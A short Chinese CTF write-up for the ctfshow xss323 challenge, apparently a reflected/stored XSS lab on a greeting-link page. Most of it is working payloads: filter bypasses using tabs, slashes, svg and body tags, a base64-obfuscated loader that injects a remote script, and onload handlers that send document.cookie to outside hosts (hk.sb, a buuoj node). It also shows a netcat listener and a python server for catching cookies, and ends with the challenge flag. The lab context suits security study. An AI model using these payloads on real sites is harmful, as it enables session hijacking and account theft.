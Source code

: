 # ctfshow-xss323



##### 参考链接

其他大佬链接

feng  https://ego00.blog.csdn.net/article/details/114079028

Y4	 https://blog.csdn.net/solitudi/article/details/111568030?spm=1001.2014.3001.5501

bit   https://www.xl-bit.cn/index.php/archives/120/



```
圣诞快乐，写下祝福语，生成链接，发送给朋友，可以领取十个鸡蛋！
祝福语
请输入祝福语
 
生成链接
```

```html
既然前面是反射型xss  其实不管它是反射还是存储 
主要还是需要我们利用xss平台 获取cookie


xss平台
https://ww.rs/
https://hk.sb/

应该是过滤了script,img,空格,frame,;

输入框输入
<Img sRC=//hk.sb/UfVb/test.jpg>

把空格用tab键替换就可以 或者/
svg 或者body可以绕过
    
<input	onfocus=eval(atob(this.id))	id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vaGsuc2IveTd4eCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=	autofocus>

后面用了buu的公开靶机当个nc监听的服务器
nc -lvp 1104
正常的vps那边是需要nc的，但是nc好像不能持续接收，但是方法其实很多，可以重复起nc，或者我这边就临时拿python起一个临时的服务器，接收一下get参数：
python -m http.server 1104
<svg/onload="window.open('https://hk.sb/y7xx'+document.cookie)">
<body/onload="window.open('https://hk.sb/y7xx'+document.cookie)">

<svg/onload="window.open('http://node4.buuoj.cn:1104/'+document.cookie)">
    <svg	onload="window.open('http://3e8366a0-4e63-4eec-963d-6fa92cad126e.node4.buuoj.cn:1104/'+document.cookie)">
...不知道为什么 input元素一直不禁用 可以一直通杀
ctfshow{df2e5fbf-9fe2-4a41-86c6-d980e5d772d4}


```

